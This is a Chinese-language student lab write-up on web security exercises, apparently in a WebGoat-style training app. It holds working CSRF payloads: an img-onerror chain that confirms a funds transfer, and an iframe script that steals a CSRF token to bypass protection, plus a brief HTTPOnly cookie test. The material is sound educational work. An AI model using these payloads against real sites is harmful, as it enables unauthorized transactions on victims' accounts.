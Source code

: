 ````html
<img
src="attack?Screen=1471017872&menu=900&transferFunds=5000"
onerror="document.getElementById('end').src='attack?Screen=1471017872&menu=900&transferFunds=CONFIRM'">
<img id="end" >
````

这里使用了两个img，在第一个请求结束后，修改第二个表单的请求地址，来实现确认功能。

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 22.46.45.png" alt="Screenshot 2023-05-19 at 22.46.45" style="zoom:50%;" />

#### 2.6 CSRF Token By-Pass

类似前面的操作，使用如下代码：

```html
<script language="javascript">
var tokensuffix;

function readFrame1()
{
    var frameDoc = document.getElementById("frame1").contentDocument;
    var form = frameDoc.getElementsByTagName("form")[0];
    tokensuffix = '&CSRFToken=' + form.CSRFToken.value;
    
    loadFrame2();
}

function loadFrame2()
{
    var testFrame = document.getElementById("frame2");
    testFrame.src="attack?Screen=803158781&menu=900&transferFunds=5000" + tokensuffix;
}
</script>
<iframe	src="attack?Screen=803158781&menu=900&transferFunds=main"
	onload="readFrame1();"
	id="frame1" frameborder="1" marginwidth="0"
	marginheight="0" width="800" scrolling=yes height="300"></iframe>
<iframe id="frame2" frameborder="1" marginwidth="0"
	marginheight="0" width="800" scrolling=yes height="300"></iframe>
```

仿造一个界面，通过readFrame1获得csrftoken，然后传递给loadFrame2进行入侵：

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 23.00.17.png" alt="Screenshot 2023-05-19 at 23.00.17" style="zoom:50%;" />

#### 2.7 HTTPOnly Test

按照课程指示，开启HTTPOnly后，进行Cookie读写：

<img src="/Users/yujie/Library/Application Support/typora-user-images/Screenshot 2023-05-19 at 23.03.31.png" alt="Screenshot 2023-05-19 at 23.03.31" style="zoom:50%;" />

## LAB1.5
